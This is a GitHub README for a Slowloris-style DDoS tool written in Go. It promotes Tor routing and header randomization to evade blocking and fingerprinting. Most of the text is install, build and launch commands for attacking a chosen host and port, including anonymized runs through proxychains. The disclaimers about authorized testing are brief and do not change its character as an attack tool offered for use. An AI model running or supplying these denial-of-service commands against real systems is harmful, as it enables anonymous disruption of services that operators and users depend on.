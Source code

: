 # kasongoDDoS
### **Kasongo - Advanced Slowloris DDoS Tool 🚀🔥**  

**⚠️ Disclaimer:** This tool is for **educational and security testing purposes only**. Unauthorized use is **illegal**. Use responsibly.  

### **🛠 Overview**  
Kasongo is a powerful **Go-based DDoS tool** inspired by Slowloris but with advanced evasion techniques. It **keeps connections open** to exhaust server resources, making it difficult to mitigate.  

### **🔹 Features**  
✅ **Advanced Socket Handling** – Efficiently manages high-volume connections.  
✅ **Tor Integration** – Routes traffic through Tor to bypass IP blocking.  
✅ **User-Agent & Header Randomization** – Evades fingerprinting defenses.  
✅ **Multi-Threading** – Sends thousands of concurrent requests.  
✅ **Target Flexibility** – Specify the target via command-line, no manual code changes.  

### **🚀 Usage**  
**Run against a target:**  
```sh
go run kasongo.go example.com 80 100 true
```  
- **example.com** → Target domain  
- **80** → Target port  
- **100** → Number of connections  
- **true** → Use Tor (set to **false** if not using Tor)  

**Start Tor before launching an attack:**  
```sh
sudo systemctl start tor
```

### **⚠️ Legal Warning**  
This tool **must only be used on systems you own or have permission to test**. Unauthorized use is **illegal and unethical**. **Use at your own risk.**  

👉 **For cybersecurity professionals and penetration testers only!** 🚀

### **How to Install and Run Kasongo on Kali Linux**  

#### **Step 1: Install Dependencies**  
Before cloning and running Kasongo, install the necessary dependencies:  
```sh
sudo apt update && sudo apt install -y golang tor proxychains4
```

#### **Step 2: Clone the Repository**  
```sh
git clone https://github.com/STURUNGI777/kasongoDDoS.git
cd kasongoDDoS
```

#### **Step 3: Build the Executable**  
```sh
go build -o kasongo kasongo.go
```

#### **Step 4: Enable Tor for Anonymity**  
Start the Tor service to route traffic through the Tor network:  
```sh
sudo service tor start
```
Confirm Tor is running:  
```sh
curl --socks5-hostname 127.0.0.1:9050 https://check.torproject.org
```

#### **Step 5: Run Kasongo with Tor (DDoS Mode)**  
Use **Proxychains** to route the attack through Tor:  
```sh
proxychains4 ./kasongo -host <target.com> -port 443 -threads 500
```
**Example:**  
```sh
proxychains4 ./kasongo -host example.com -port 443 -threads 1000
```

#### **Step 6: Running Without Tor (Direct Mode)**  
If you don’t want to use Tor, simply run:  
```sh
./kasongo -host <target.com> -port 443 -threads 500
```

#### **⚠️ Warning: Use Responsibly**  
This tool is for educational and security testing **ONLY**. Unauthorized use is illegal. 🚨
